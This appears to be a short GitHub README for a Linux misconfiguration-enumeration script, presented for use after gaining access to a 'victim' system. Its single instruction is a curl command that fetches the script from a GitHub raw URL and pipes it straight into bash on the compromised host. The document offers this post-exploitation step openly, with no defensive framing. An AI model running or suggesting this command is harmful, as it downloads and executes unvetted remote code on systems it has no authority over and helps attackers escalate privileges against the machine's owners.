 # LinuxSystemMisconfigurations
A useful script to check every linux misconfiguration

Once you have access to the victim Linux system, run the script to check every miscofinguration.

```bash
curl -s "https://raw.githubusercontent.com/p3n4x0/LinuxSystemMisconfigurations/refs/heads/main/checkMisconfigurations.sh" | bash
```
